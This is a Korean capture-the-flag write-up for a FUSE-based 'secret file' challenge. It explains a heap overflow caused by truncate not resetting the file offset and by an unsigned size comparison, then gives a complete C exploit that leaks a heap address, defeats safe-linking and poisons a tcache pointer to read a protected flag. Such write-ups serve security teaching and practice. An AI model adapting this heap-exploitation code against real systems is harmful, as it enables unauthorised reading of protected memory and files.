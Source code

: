 # secret file

# Usage

# Concept

- `FUSE` , heap overflow
- 문제를 실행하기 위해서 호스트 시스템에 FUSE 가 설치되어있어야 합니다. (apt install fuse)

# Writeup

FUSE(File system in User SpacE) 는 가상의 유저 영역에서 동작하는 파일 시스템을 구현시켜주는 인터페이스다. 이를 이용하면 특정 디렉토리를 마운팅 시켜서 유저가 원하는 대로 파일 시스템을 구현할 수 있다. 본 문제에서는 이를 이용해서 flag 를 읽지 못하게 세팅했다. 

문제에서 제공하는 ssh 계정으로 접속하면 아래처럼 flag 파일을 볼 수 있으나, 읽을 수 없다. 

```cpp
---------- 1 secret secret 48 Jan  1  1970 flag
```

문제의 취약점은 `truncate` 함수에서 발생한다. 파일의 크기를 줄이는 경우에 파일의 offset 을 변경하지 않기 때문에 heap overflow 가 가능하다. 

```cpp
static int virtual_truncate(const char* path, off_t off){
    virtual_file* file = get_file(path);
    if (!file)
        return -ENOENT;
    file->data = realloc(file->data, off); 
    file->size = off;
    if (off == 0){
        for (int i = 0; i < 20; i++){
            if (file_list[i] && !strcmp(file_list[i]->path, path)){
                free(file_list[i]);
                file_list[i] = NULL;
                break;
            }
        }
    }
    return 0;
}
```

또한 할당 받은 메모리를 초기화 하지 않는다는 점에서, 기존의 더미값의 유출을 이용해서 heap 주소를 leak 할 수 있는 벡터가 있다. 서버의 환경이 Ubuntu 22.04 이기 때문에 Safe-linking 이 걸려있지만 PIE가 문제에 걸려있지 않기 때문에 매우 높은 확률로 주소를 맞출 수 있다. 

leak 이후 파일의 크기를 `truncate` 또는 `write` 으로 크기를 늘려주고 다시 `truncate` 를 통해서 파일의 크기를 줄이게 되면 `file->size file->offset` 은 `file→offset` 이 0으로 초기화 되지 않는 이상 음수인데, size_t 자료형으로 인해서 부호없는 비교가 일어나게 되고 if문이 항상 거짓이되어 통과된다. 이 과정 이후에 `memcpy` 에서 힙 버퍼오버플로우를 트리거 할 수 있다. 

```cpp
if (size > file->size - file->offset){
      size_t origin = file->size;
      file->size = size;
      if (file->size >= 0x5000){
          file->size = origin;
          return -ENOMEM;
      }                
      file->data = realloc(file->data, file->size);
  }    
  memcpy(file->data + file->offset, buf, size);
```

적절한 힙풍수를 이용해서 tcache 청크의 fd 를 flag의 주소로 바꿔주면 새로운 파일을 할당 할 때 flag 의 주소를 data 로 설정하게 되면서 새로 만든 파일의 내용에 flag가 담겨있게 된다.

익스플로잇 코드는 아래와 같으며 C언어로 작성되었다. 

```cpp
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

size_t enc(size_t new, size_t old){
        return (new >> 12) ^ old;
}

int main(){
        char* buf = malloc(0x1000);
        memset(buf, 0, 0x1000);
        int fd = open("/super_secret/a", O_RDWR | O_CREAT);
        close(fd);
        int fd2 = open("/super_secret/b", O_RDWR | O_CREAT);
        close(fd2);
        truncate("/super_secret/a", 0);
        truncate("/super_secret/b", 0);
        fd = open("/super_secret/c", O_RDWR | O_CREAT);
        size_t addr;
        read(fd, &addr, 8);
        addr -= 0x22000;
        addr &= 0xFFFFF000;
        printf("heap base : %#llx\n", addr);
        fd2 = open("/super_secret/aa", O_RDWR | O_CREAT);
        truncate("/super_secret/aa", 0x1000);
        write(fd2, buf, 0x510);
        truncate("/super_secret/aa", 0x500);
        int fd3 = open("/super_secret/e", O_RDWR | O_CREAT);
        int fd4 = open("/super_secret/d", O_RDWR | O_CREAT);
        close(fd3);
        close(fd4);
        truncate("/super_secret/e", 0);
        truncate("/super_secret/d", 0);
        size_t heap1 = addr + 0x021aa0 + 0x10; //0x40 size heap
        size_t heap2 = addr + 0x021ae0 + 0x10; //0x40 size heap
        size_t heap3 = addr + 0x021b20 + 0x10; //0x110 size heap
        size_t flag = 0x404090; //flag address
        size_t* ptr = (size_t*)buf;
        *ptr++ = enc(heap1, 0);
        *ptr++ = 0;
        ptr += 5;
        *ptr++ = 0x41;
        *ptr++ = enc(heap2, heap1);
        *ptr = 0;
        ptr += 7;
        *ptr++ = enc(heap3, flag);
        *ptr++ = 0x0;
        write(fd2, buf, 0xb0);
        int fd5 = open("/super_secret/cccc", O_RDWR | O_CREAT);
        int fd6 = open("/super_secret/fake_flag", O_RDWR | O_CREAT);
}
```

익스플로잇에 성공할 경우 /super_secret 폴더 아래의 fake_flag 파일을 열면 플래그가 보인다.

```cpp
$ cat /super_secret/fake_flag
hspace{this_is_sample_flag__________}K@�@�@�@�@�@�@$
```